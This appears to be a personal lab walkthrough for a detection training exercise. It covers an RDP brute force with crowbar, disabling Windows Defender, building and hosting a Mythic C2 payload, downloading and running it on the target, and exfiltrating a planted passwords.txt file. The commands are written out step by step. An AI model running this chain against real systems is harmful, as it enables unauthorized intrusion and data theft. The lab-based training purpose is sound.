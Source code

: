 
### 1. Introduction

Goal: Perform an RDP brute force attack using Kali Linux, generate a Mythic C2 agent and host it, establish a C2 session from a compromised Windows server and exfiltrate a sensitive file to complete the attack chain.

---

### 2. Objective

- Launch a brute force attack on a Windows server.
- Run discovery and defense evasion commands.
- Build and host a Mythic payload.
- Download and execute the payload on the Windows target.
- Establish a C2 session and exfiltrate the `passwords.txt` file.

---

### 3. Preparing the Windows Server

1. **Create Fake Password File**
    - Navigate to `Documents` and create a file named `passwords.txt`.
        ![[Pasted image 20251018160503.png]]

2. **Change Windows Password**
    
    - Go to:  
        `Start Menu` → Username → `Change Account Settings` → `Sign-in Options` → Password → `Change`
        
    - Set the new password to `Winter2024!`.
        
3. **Adjust Password Policy (if required)**
    
    - Minimum password length: **5 characters**
    - Disable complexity requirements in _Local Group Policy Editor_.
    ![[Pasted image 20251018160803.png]]

---

### 4. Performing RDP Brute Force Attack

1. **Prepare Wordlist**
    - Navigate to Kali Linux terminal:
        
        `cd /usr/share/wordlists 
        `sudo gunzip rockyou.txt.gz 
        `sudo head -50 rockyou.txt > ~/home/kali/mydfir-wordlist.txt 
        `echo "Winter2024!" >> ~/home/kali/mydfir-wordlist.txt
        ![[Screenshot (24).png]]
        
2. **Install Crowbar**
    
    `sudo apt-get update && sudo apt-get upgrade -y 
    `sudo apt-get install -y crowbar`
    
3. **Create Target File**
    
    - Add Windows Server IP and username.
        
4. **Run Brute Force Attack**
    
    `crowbar -b rdp -u Administrator -C Challenge-Wordlist.txt -s <MYDFIR-WIN-emaan-IP>/32`
    
5. **Successful Login**
    
    - Username: `Administrator`
    - Password: `Winter2024!`
        
![[Pasted image 20251018163154.png]]

---

### 5. Connecting to the Windows Server

1. **Establish RDP Session**
    
    `xfreerdp /u:Administrator /p:Winter2024! /v:<MYDFIR-WIN-IP>:3389`
    
2. **Trust the certificate** to complete the connection.
    
![[Screenshot 2025-10-18 163516.png]]
---

### 6. Discovery Phase

Run basic discovery commands in PowerShell or CMD:

`whoami 
`ipconfig 
`net user 
`net group 
`net user Administrator`
![[Pasted image 20251018164112.png]]
![[Pasted image 20251018164424.png]]
---

### 7. Defense Evasion

Disable Windows Defender:

- Open **Windows Security** → **Virus & Threat Protection**.
- Disable Real-time protection and other security features.
![[Pasted image 20251018164559.png]]
---

### 8. Execution Phase (Mythic Agent Setup)

1. **Access Mythic Server**
    
    `ssh root@<MYDFIR-MYTHIC-IP>`
    
2. **Install Apollo Agent**
    
    `./mythic-cli install github https://github.com/MythicAgents/Apollo.git`
    
    ![[Screenshot (25).png]]
    
3. **Install HTTP C2 Profile**
    
    `./mythic-cli install github https://github.com/MythicC2Profiles/http`
    
    ![[Pasted image 20251018165718.png]]
    
4. **Create Payload in Mythic Web GUI**
    
    - Target OS: **Windows**
    - Output Format: **WinExe**
    - Commands: **Include All**
    - C2 Profile: **HTTP**
    - Callback Host: `http://<MYDFIR-MYTHIC-IP>`
    - Port: `80`
    - Payload Name: `ChallengeMythicPayload`


---

### 9. Hosting and Downloading Payload

1. **Download Payload**
    
    `wget <payload_download_link> --no-check-certificate mv <payload_name>.exe servicehost-haji.exe`
    
2. **Serve Payload over HTTP**
    
    `ufw allow 9999 python3 -m http.server 9999`
    
3. **Download on Windows Target**
    
    `Invoke-WebRequest -Uri http://<Challenge-Mythic-IP>:9999/servicehost-haji.exe -OutFile C:\Users\Public\Downloads\servicehost-haji.exe`
    
4. **Allow Port 80**
    
    `ufw allow 80`
    
5. **Execute Payload**
    
    `.\servicehost-haji.exe`
    
6. **Verify Connection**
    
    `netstat -anob`
    
    - Also check Task Manager or Mythic GUI callbacks.
        

---

### 10. Establishing C2 Connection

- Open Mythic Web GUI → **Active Callbacks**.
- Interact with the agent and run:
    
    `whoami ipconfig`
    

---

### 11. Exfiltration

1. **Download the Target File**
    
    `download C:\Users\Administrator\Documents\passwords.txt`
    
2. **Verify in Mythic Web GUI**
    
    - Navigate to **Files** → Check `passwords.txt` contents.
        


**Reference**
https://youtu.be/85x0NLj2zUo?si=_cpuOgH-OqAYwgYo